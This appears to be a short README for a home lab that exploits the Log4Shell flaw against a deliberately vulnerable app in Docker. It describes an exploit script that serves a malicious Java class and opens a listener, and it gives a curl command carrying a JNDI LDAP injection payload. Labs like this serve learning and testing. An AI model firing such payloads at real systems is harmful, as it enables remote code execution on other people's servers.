

# fun with log4shell and docker

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## play 
- one terminal : launch the vulnerable app : ./start_vuln_server.sh
- other terminal :
  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
  - launch the exploit : `./exploit.sh <host_ip>` (clone and build the jndi ldap server, compile the malicious class, run jndi server, run apache server to give the class in http, start listener) (ldap: port 4445, http server : 4443, listener : 4444)
- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<host_ip>:4445/x}'

